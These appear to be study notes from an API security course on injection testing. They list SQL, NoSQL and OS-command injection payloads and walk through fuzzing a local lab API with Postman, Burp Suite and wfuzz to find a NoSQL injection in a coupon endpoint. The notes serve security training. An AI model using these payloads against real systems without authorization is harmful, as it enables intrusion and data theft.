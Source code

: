 ## APISEC Testing for Injection Vulnerabilities notes

### Fuzzing
This section covers using fuzzing to discover injection points and analyzing the responses we receive. Again, fuzzing is sending various different inputs to an endpoint to provoke unintended responses. These payloads can include symbols, numbers, system commands, SQL/NoSQL queries.

The goal is to get the API to send a verbose response or to cause it to behave adversely, user input sanization is important to combat fuzzing.

Potential inputs to test fuzzing against:
- Headers
- Query string parameters
- Parameters in POST/PUT

The more we know about the target system, the more we can focus our attacks and increase the chances of finding vulnerabilities.  This is where the previous reconnaissance efforts become important, if we know what database, OS, programming language the system uses we can submit targeted payloads to detect vulnerabilities associated with the respectful technologies.

The art of fuzzing is knowing the right payload to send in the right request with the right tools. We can narrow this with reconnaissance tools.

For example if the API expects an input we could try:
- VEERY LARGE NUMBER
- VEERY LARGE STRING
- negative number
- A string (instead of number or boolean)
- Random characters
- Boolean values
- Meta characters

### SQL Injection meta characters
```
'
''
;%00
--
-- -
""
;
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
' OR '' = '
OR 1=1
```

### NoSQL Injection
NoSQL metacharacters you could send in an API request to manipulate the database:
```
$gt 
{"$gt":""}
{"$gt":-1}
$ne
{"$ne":""}
{"$ne":-1}
$nin
{"$nin":1}
{"$nin":[1]}
{"$where":  "sleep(1000)"}
```
Where for example $gt is a MongoDB NoSQL query operator "greater"
$ne = not equal
$nin = not in

### OS Injection

These command injections require being able to leverage system commands that the application has access to or escaping the pp altogether.

```
|
||
&
&&
'
"
;
'"
```

```
Common Operating System Commands to Use in Injection Attacks

Windows
____________
ipconfig
dir
ver
whoami

*nix (Linux and Unix)
____________
ifconfig
ls
pwd
whoami
```

Postman collection runner is great for testing the whole application where as wfuzz and others are great for individual requests.

So to do fuzzing on the whole collection first we add fuzzing variables to the environment then choose interesting requests and replace the URL variables or body variables with "{{fuzz}}".

We then check for interesting responses, particularly the POST orders seems interesting, we can then change the fuzz variable to any of the others mentioned above. When we fuzz with {"$gt":-1} we notice a new unique response code 422 "Unprocessable Entity" on endpoint POST ```{{baseUrl}}/community/api/v2/coupon/validate-coupon``` 

```
{
    "error": "invalid character '$' after object key:value pair"
}
```
and another new response at POST ```{{baseUrl}}/community/api/v2/community/posts```
```
{
    "detail": "JSON parse error - Expecting ',' delimiter: line 2 column 20 (char 21)"
}
```
We then take these two requests into burp suite to fuzz them further in the intruder by using the noSQL payloads listed above.

When sending them in "\$payload\$" format we don't really get any information but when we send them as json objects \$payload$ we get code 200 on some payloads on the validate coupon endpoint. Furthermore the response changed from the other endpoint to 
```
{
    "error":"invalid character '%' looking for beginning of value"
}
```
We can notice that the coupon endpoint is vulnerable to NoSQL payloads! Lets use wfuzz to further fuzz the noticed endpoint for example:

```
wfuzz -z file,/home/kali/Downloads/mongodb_nosqli.txt -H 'Content-Type: application/json' -H 'Authorization: Bearer ...' -d "{\"coupon_codes\":FUZZ}" --sc 200 http://127.0.0.1:8888/community/api/v2/coupon/validate-coupon
```
we can proxy through burp suite to validate all the formatting etc in the payloads.
![alt text](./images/sqli.png)